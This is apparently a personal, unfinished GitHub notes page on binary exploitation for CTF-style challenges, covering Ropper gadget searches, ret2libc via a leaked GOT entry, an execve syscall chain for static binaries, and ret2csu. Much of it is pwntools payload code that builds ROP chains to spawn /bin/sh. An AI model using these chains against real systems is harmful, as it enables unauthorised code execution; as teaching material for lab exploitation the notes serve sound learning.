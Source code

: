 
### in progress


# ROP
# what is ROP
# how to find Gadgets (Ropper)
read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

# how to find Strings in an ELF	
searching manually
`strings -t x -a /path/to/binary | grep "string you searching"`

in a pwntools script
```
binary = ELF('/path/to/binary')
string = next(libc.search(b'string you searching'))
```

# how to pivote the Stack
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>






# BROP 

# SROP
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
